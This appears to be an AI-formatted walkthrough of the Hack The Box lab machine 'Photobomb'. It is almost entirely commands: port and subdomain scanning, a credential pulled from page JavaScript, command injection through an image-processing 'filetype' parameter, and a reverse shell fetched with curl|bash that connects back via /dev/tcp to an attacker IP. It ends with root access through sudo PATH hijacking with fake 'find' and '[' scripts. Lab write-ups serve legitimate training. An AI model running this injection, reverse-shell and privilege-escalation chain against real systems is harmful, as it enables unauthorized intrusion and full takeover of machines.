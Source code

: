 Here's your clean, organized, and markdown-formatted command and exploitation reference for **HTB: Photobomb** 🎞️💣 – perfectly structured for HTB prep or quick review:

---

# 📸 HTB: Photobomb – Command & Exploitation Guide

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.182
nmap -p 22,80 -sCV 10.10.11.182
```

### Host Mapping
```bash
echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

### Fuzz for Subdomains
```bash
ffuf -u http://10.10.11.182 -H "Host: FUZZ.photobomb.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

## 🌐 Website Enumeration

### Locate JavaScript with Creds
Check source for:
```html
<script src="/static/photobomb.js"></script>
```

Look for:
```js
// Jameson: pre-populate creds for tech support...
'href','http://pH0t0:b0Mb!@photobomb.htb/printer'
```

### Feroxbuster Directory Scan
```bash
feroxbuster -u http://photobomb.htb -x php,html,txt \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

---

## ⚙️ Authenticated Image Panel

### Example POST Request for Image Processing
```http
POST /printer HTTP/1.1
Authorization: Basic cEgwdD...==  # Base64 of pH0t0:b0Mb!
Content-Type: application/x-www-form-urlencoded

photo=wolfgang.jpg&filetype=png&dimensions=1000x1000
```

---

## 💣 Command Injection via filetype Parameter

### POC: Confirm Injection
```bash
filetype=png;sleep+5
```

### Reverse Shell Payload
Start a listener:
```bash
nc -lnvp 443
```

Host this on your webserver as `shell.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

Send payload:
```http
filetype=png;curl+10.10.14.6/shell.sh|bash
```

---

## 🧑‍💻 Shell as `wizard`

### Stabilize Shell
```bash
script /dev/null -c bash
# CTRL+Z
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🚀 Privilege Escalation to Root

### Check Sudo Rights
```bash
sudo -l
# Output:
# (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

### Review `/opt/cleanup.sh`
```bash
cat /opt/cleanup.sh
```

Notable line:
```bash
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

---

## 🔓 Privesc Option 1 – PATH Hijack

### Create Fake `find` in Current Directory
```bash
echo -e '#!/bin/bash\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🔓 Privesc Option 2 – Bash Builtin `[`

### `.bashrc` disables builtin:
```bash
enable -n [  # disables Bash builtin [
```

### Exploit Disabled `[`
```bash
echo -e '#!/bin/bash\nbash' > [
chmod +x [
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

---

## 🏁 Flags

### User Flag
```bash
cat /home/wizard/user.txt
```

### Root Flag
```bash
cat /root/root.txt
```